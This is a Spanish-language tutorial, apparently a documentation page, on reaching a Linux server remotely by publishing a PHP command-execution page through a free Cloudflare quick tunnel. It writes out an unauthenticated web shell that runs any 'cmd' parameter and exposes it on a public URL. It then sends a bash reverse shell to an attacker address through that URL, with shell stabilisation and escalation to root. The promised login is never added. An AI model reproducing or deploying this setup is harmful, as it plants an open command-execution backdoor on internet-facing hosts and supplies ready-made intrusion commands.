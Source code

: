 ```yaml
---
icon: cloudflare
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Exponer Puerto con Cloudflare Gratis

Si por ejemplo queremos exponer un puerto de forma gratuita para podernos conectar a nuestro servidor de `Linux` obteniendo una shell y pudiendo hacer lo que queramos desde cualquier parte del mundo, podremos realizar un truco.

En vez de pagar un dominio en `Cloudflare` para exponer el puerto `SSH` y conectarnos de forma remota, podremos exponer el puerto `80`, crear una pagina en `PHP` que nos permita inyectar comandos directamente en el servidor, para asi poder obtener una `reverse shell`, a todo esto le podemos poner una seguridad dentro del `PHP` como por ejemplo un `login` para que los usuarios que esten autenticados pueda generar una `reverse shell` desde la pagina web.

## Instalar cliente de Cloudflare

Lo que tendremos que hacer de primeras es instalar el cliente de `Cloudflare`, en mi caso lo hare en `Linux` desde esta pagina.

URL = [Pagina Cloudflare Downloads](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/#linux)

> NOTA IMPORTANTE

Para saber la arquitectura de nuestro sistema `Linux` podremos hacerlo con `uname -m` en la terminal, en mi caso me pone `x86_64` por lo que sabemos que seria `AMD x86_64`.

> Listado de arquitecturas de Sistema Linux

* `x86_64` → arquitectura **AMD64/Intel 64** (también llamado **x64**)
* `i686` o `i386` → arquitectura **32-bit x86**
* `aarch64` → arquitectura **ARM de 64 bits**
* `armv7l` → arquitectura **ARM de 32 bits**

Una vez descargado en mi caso seria el `.deb`, tendremos que ejecutar el siguiente comando para instalarlo.

```shell
dpkg -i <FILE>.deb
```

Una vez que se haya instalado (No deberia de tardar) podremos exponer un puerto `web` de la siguiente forma, pero antes de hacerlo tendremos que instalar `apache2`.

## Instalar/Configurar Servidor Web (apache2)

```shell
sudo apt update
sudo apt install apache2
```

Una vez instalado, vamos a iniciar el servicio de esta forma.

```shell
service apache2 start
systemctl enable apache2 #En tal caso de que tuvieramos la herramienta "systemctl"
```

Echo esto vamos añadir en la ruta donde se alojan las paginas web de `apache2` el siguiente archivo sencillo para podernos generar una `reverse shell`.

```shell
nano /var/www/html/index.php

#Dentro del nano
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>";
    system($cmd);
    echo "</pre>";
} else {
    echo "Usa ?cmd=comando para ejecutar.";
}
?>
```

Lo guardamos, le establecemos permisos de ejecuccion.

```shell
chmod +x /var/www/html/index.php
chown -R www-data:www-data /var/www/html/
sudo apt install apache2 php libapache2-mod-php -y
```

Ahora reiniciamos el servicio de `apache2`.

```shell
service apache2 restart
```

Echo esto ahora si vamos a exponer nuestro puerto `80` que es donde esta la pagina web de `apache2` de esta forma.

## Iniciar Cloudflare (Tunelización)

```shell
cloudflared tunnel --url http://localhost:80
```

Info:

```
2025-06-17T14:52:05Z INF Thank you for trying Cloudflare Tunnel. Doing so, without a Cloudflare account, is a quick way to experiment and try it out. However, be aware that these account-less Tunnels have no uptime guarantee, are subject to the Cloudflare Online Services Terms of Use (https://www.cloudflare.com/website-terms/), and Cloudflare reserves the right to investigate your use of Tunnels for violations of such terms. If you intend to use Tunnels in production you should use a pre-created named tunnel by following: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps
2025-06-17T14:52:05Z INF Requesting new quick Tunnel on trycloudflare.com...
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF Version 2025.6.1 (Checksum <CHECKSUM>)
2025-06-17T14:52:11Z INF GOOS: linux, GOVersion: go1.24.2, GoArch: amd64
2025-06-17T14:52:11Z INF Settings: map[ha-connections:1 protocol:quic url:http://localhost:80]
2025-06-17T14:52:11Z INF cloudflared will not automatically update if installed by a package manager.
2025-06-17T14:52:11Z INF Generated Connector ID: <ID>
2025-06-17T14:52:11Z INF Initial protocol quic
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF Starting metrics server on 127.0.0.1:20241/metrics
2025-06-17T14:52:11Z INF Tunnel connection curve preferences: [X25519MLKEM768 CurveID(<CURVEID>) CurveP256] connIndex=0 event=0 ip=<IP_PUBLICA>
2025-06-17T14:52:11Z INF Registered tunnel connection connIndex=0 connection=<ID> event=0 ip=<IP_PUBLICA> location=mad02 protocol=quic
```

De toda esta informacion tendremos que quedarnos donde pone:

```
+--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
```

En concreto donde empieza el `https://...` todo eso va a ser nuestro dominio `tunelizado` desde nuestro servidor local de `apache` por lo que cuando alguien se conecte de forma externa, como por ejemplo nosotros desde otro ordenador, lo que estaremos haciendo sera conectarnos a `http://localhost:80` de forma externa, por lo que si en un navegador ponemos...

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com
```

Veremos nuestra interfaz de `apache2` por defecto ya que no eliminamos nuestro `index.html`, pero vamos a ir al archivo que hemos creado de `PHP`.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=whoami
```

Info:

```
www-data
```

Veremos que esta funcionando, ahora si desde otro ordenador con un `kali linux` nos ponemos a la escucha con `nc` de esta forma.

## Obtener acceso a nuestro servidor por shell

```shell
nc -lvnp <IP>
```

Y desde la `URL` enviamos una `reverse shell` de esta forma.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATTACKER>/<PORT> 0>%261"
```

Lo enviamos y si volvemos a donde tenemos nuestra escucha veremos que habremos obtenido acceso como el usuario `www-data` por lo que sanitizaremos la `shell`.

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez echo esto ya tendremos una `shell` bien sanitizada y habremos podido acceder a nuestro servidor de forma gratuita sin comprar ningun dominio en `Cloudflare`, ni exponer el puerto `SSH` de forma directa, solamente desde la `web`, ya solo tendremos que hacer.

```shell
su root
```

Meter la contraseña de `root` que hayamos puesto y listo, tendremos acceso al servidor como `root` desde cualquier parte del planeta.
